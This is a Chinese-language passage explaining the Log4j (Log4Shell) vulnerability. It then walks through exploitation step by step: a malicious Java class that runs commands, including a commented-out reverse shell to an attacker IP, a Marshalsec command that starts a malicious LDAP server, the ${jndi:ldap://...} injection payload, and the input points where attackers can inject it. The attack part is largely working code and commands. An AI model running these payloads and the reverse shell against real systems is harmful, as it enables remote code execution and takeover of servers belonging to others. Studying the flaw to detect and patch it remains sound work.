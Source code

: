 > [!WARNING]
> 漏洞触发的核心条件：①使用Log4j 2.x版本（2.0-beta9至2.14.1为高危版本）；②用户输入可被Log4j记录为日志；③目标系统可访问攻击者控制的远程服务器。 

#### 漏洞利用：零门槛的攻击实践

Log4j漏洞的利用门槛极低，攻击者无需复杂技术储备，仅需准备“恶意LDAP/RMI服务器”和“恶意Java类”，即可完成攻击。以下是典型利用流程及场景：

##### 1. 攻击者准备工作

1. **编写恶意Java类**：构造包含命令执行逻辑的类（如执行“calc.exe”打开计算器，或“curl 攻击服务器”回连），示例代码如下：

   ```java
   import java.lang.Runtime;
   import java.lang.Process;
   public class MaliciousClass {
       static {
           try {
               //  Windows系统执行计算器
               Process p = Runtime.getRuntime().exec("calc.exe");
               //  Linux系统执行反弹shell（需替换攻击服务器IP和端口）
               // Process p = Runtime.getRuntime().exec("/bin/bash -i >& /dev/tcp/192.168.1.100/8888 0>&1");
               p.waitFor();
           } catch (Exception e) {
               e.printStackTrace();
           }
       }
   }
   ```

2. **编译恶意类**：使用javac命令编译上述代码，生成MaliciousClass.class字节码文件，并将其部署到攻击者控制的HTTP服务器（如Nginx、Python简易HTTP服务），确保目标系统可访问；

3. **启动恶意LDAP服务器**：使用工具（如Marshalsec）启动LDAP服务器，配置“当收到JNDI请求时，返回指向恶意类的HTTP地址”。例如：

   ```shell
   ## 启动LDAP服务器，监听1389端口，将请求转发到恶意类的HTTP地址
   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://攻击服务器IP:8080/#MaliciousClass" 1389
   ```

##### 2. 攻击执行流程

1. 攻击者向目标系统输入恶意表达式（如`${jndi:ldap://攻击服务器IP:1389/MaliciousClass}`）；
2. 目标系统的Log4j记录日志时，解析表达式并向LDAP服务器发起请求；
3. 恶意LDAP服务器返回“恶意类的HTTP地址”（`http://攻击服务器IP:8080/MaliciousClass.class`）；
4. 目标系统通过HTTP下载恶意类，并自动执行静态代码块中的命令；
5. 攻击者成功控制目标系统（如反弹shell获取交互权限）。

##### 3. 典型攻击场景

- **Web应用输入点**：URL参数、表单提交内容、Cookie、HTTP头（如User-Agent、Referer）等；
- **中间件日志**：Tomcat、Jetty等中间件的访问日志若使用Log4j记录，攻击者可通过构造请求头注入表达式；
- **服务间调用**：微服务架构中，服务间的接口参数若被日志记录，可通过调用接口注入漏洞；
- **物联网设备**：嵌入式Java设备（如智能网关）的日志组件若存在漏洞，可被远程攻击。
